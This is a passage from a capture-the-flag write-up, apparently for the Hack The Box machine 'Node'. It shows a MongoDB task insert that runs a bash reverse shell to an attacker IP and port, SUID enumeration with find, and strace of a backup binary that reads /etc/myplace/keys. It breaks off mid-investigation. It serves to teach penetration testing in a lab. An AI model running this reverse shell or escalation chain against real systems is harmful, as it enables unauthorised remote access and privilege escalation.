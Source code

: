 ```shell
> db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.17/9999 0>&1'"})
WriteResult({ "nInserted" : 1 })
>
```

We got a shell as Tom !

![image](https://user-images.githubusercontent.com/59029171/139863804-ab5cca2b-f3cc-47c7-943c-442ed7ac3a68.png)

## backup SUID

Let us check the SUID privileges for Tom user and search for any interesting files.

```bash
tom@node:/home$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
![image](https://user-images.githubusercontent.com/59029171/139863921-f67a465f-7c0d-4a64-92ff-b03d4aaa85cc.png)

I found an interesting file `backup`, with file permissions as `admin` to execute.
We can execute the file since we have GUID as `admin` as Tom.
On executing the file, it doesn't return anything.

```bash
tom@node:/$ /usr/local/bin/backup
```
I do remember that there was a process that spawns backup on `api.js` whcih we found earlier.
Let's read that and see what it does.

```bash
var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
```

![image](https://user-images.githubusercontent.com/59029171/139864170-23104d87-26b9-4b6e-ae26-84d2a6f726cb.png)

It takes three parameters: `-q`, then a backup key and a directory name.
Let us run the file using `strace` to check what's happening.

```bash
tom@node:/$ strace /usr/local/bin/backup a a a
```
At the end of the file we can notice its trying read the content of `"/etc/myplace/keys"` file.
```shell
[SNIP...]

) = 81
write(1, "\n", 1
)                       = 1
open("/etc/myplace/keys", O_RDONLY)     = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=196, ...}) = 0
read(3, "a01a6aa5aaf1d7729f35c8278daae30f"..., 4096) = 196
read(3, "", 4096)                       = 0
write(1, " \33[33m[!]\33[37m Ah-ah-ah! You did"..., 57 [!] Ah-ah-ah! You didn't say the magic word!

) = 57
[SNIP...]
```
After reading the file's content, We can figure that it contains some keys. Maybe we can use these keys and read the root directory?
